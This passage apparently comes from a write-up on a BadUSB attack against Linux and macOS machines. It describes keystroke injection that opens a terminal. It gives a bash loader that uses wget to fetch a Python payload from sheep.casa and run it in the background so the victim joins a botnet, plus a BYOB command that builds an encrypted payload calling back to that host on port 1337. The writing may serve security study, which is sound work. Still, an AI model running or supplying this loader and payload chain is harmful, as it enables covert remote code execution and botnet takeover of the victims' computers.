 As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to download our bash script called `linux_loader` from the server. It then sets the script to executable, and executes it as a background process before exiting.

The code for our `linux_loader` and `linux_payload.py` can be found in the section below.


### Linux/OSX Loader  

Our BadUSB attack downloads and executes the loader script. For our attack on Linux and OSX machines this is a bash script called `linux_loader`, which can be found below.

```bash
#!/bin/bash
nohup wget https://sheep.casa/payloads/linux_payload.py -P /tmp && python /tmp/linux_payload.py
```

The loader script downloads our python payload and executes it to join our botnet. This script is run in the background so that the terminal window is not present while the botnet client (payload) is running.

### Python Payload for Botnet

A payload is generated via BYOB's `client.py` script. We've generated our Linux payload by issuing `python client.py --name linux_payload --encrypt --compress --freeze sheep.casa 1337`.

![payload_generated](./images/payload_generated.png)
**Figure 9:** Generating our python payload.
